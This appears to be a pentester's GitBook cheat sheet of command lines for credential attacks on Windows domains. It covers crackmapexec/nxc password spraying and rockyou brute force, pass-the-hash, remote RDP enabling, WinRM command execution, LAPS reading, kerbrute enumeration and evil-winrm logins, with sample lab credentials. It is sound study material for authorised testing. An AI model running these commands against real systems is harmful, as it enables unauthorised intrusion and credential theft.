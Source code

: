 # Credentials

## **SMB**

crackmapexec smb targetip (port 135, 139 or 445)

### crackmapexec

{% code overflow="wrap" %}
```bash
crackmapexec smb <target_ip> -u <username> -p <password>
crackmapexec smb <target_ip> -u <username> -p <password> --shares
crackmapexec smb 192.168.1.1-100 <range IPs> -u <username> -p <password> --shares
crackmapexec smb <target_ip> -u userslist -p passwordlist --shares

crackmapexec smb 10.10.10.1 -u 'john' -p 'password123' --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol

# enable rdp
crackmapexec smb IP -u user -p pass -M rdp -o ACTION=enable
#spider_plus is a carackmapexec module used in the smb section to copy all files paths into a json file
crackmapexec smb <target_ip> -u <username> -p <password> -M spider_plus
#to show content 
crackmapexec smb 192.168.1.50 -d wargrey.mon -u Administrator -p h3ckt0r -x “more filepath”

crackmapexec smb 10.10.144.122 -u users -p /usr/share/wordlists/rockyou.txt --continue

```
{% endcode %}

## **LDAP**

```bash
#Testing if account exist without kerberos protocol
crackmapexec ldap 192.168.1.0/24 -u users.txt -p '' -k
#Testing credentials
crackmapexec ldap 192.168.1.0/24 -u user -p password
crackmapexec ldap 192.168.1.0/24 -u user -H A29F7623FD11550DEF0192DE9246F46B
#Identify Trust Relationships And Direction
crackmapexec ldap <ip> -u user -p pass -M enum_trusts

```

## WINRAM or Use  nxc

{% code overflow="wrap" %}
```bash
#Identify Trust Relationships And Direction
crackmapexec ldap <ip> -u user -p pass -M enum_trusts
#Password spraying (without brute force)
crackmapexec winrm 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce

#Testing credentials
crackmapexec winrm 192.168.1.0/24 -u user -p password

#If the SMB port is closed you can also use the flag -d DOMAIN to avoid an SMB connection
crackmapexec winrm 192.168.1.0/24 -u user -p password -d DOMAIN
#Execute Command using WinRM
crackmapexec winrm 192.168.255.131 -u user -p 'password' -X whoami
#if we meet server 2012 or less, maybe the server has a local administrator with the password you can use  --laps refer to  local administrator password solution
crackmapexec winrm <ip> -u user-can-read-laps -p pass --laps
```
{% endcode %}

```bash
nxc winrm 10.10.175.105 -u 'j.rock' -p 'Serviceworks1'
nxc smb 10.10.175.105 -u 'j.rock' -p 'Serviceworks1'
nxc smb  10.10.205.80 -u ' guest' -p '' --rid-brute | grep 'SidTypeUser'
```

### Nmap&#x20;

{% code overflow="wrap" %}
```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>
```
{% endcode %}

{% hint style="info" %}
if we don't join in Domain >> use nslookup
{% endhint %}

### nslookup

{% code overflow="wrap" %}
```bash
nslookup <ip you want> <ip DNS>
#we can use this script to extract data as Like Name (computer name or Client) and (ip)
for /L %i in (1,1,255) do @nslookup 192.168.1.%i <ip DNS> 2>null | find "Name" && echo 192.168.1.%i
```
{% endcode %}

### enum4linux

```bash
enum4linux -a -u "user" -p "password" <DC IP>
```

{% code overflow="wrap" %}
```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases
./kerbrute_linux_amd64 -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>

```
{% endcode %}

### smbmap

### Find Domain Controller IP

```bash
nslookup -type=SRV _ldap._tcp.dc._msdcs.deathstar.rfs
```

### evil-Winrm

```
evil-winrm -u j.rock@services.local -p Serviceworks1 --ip 10.10.175.105
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
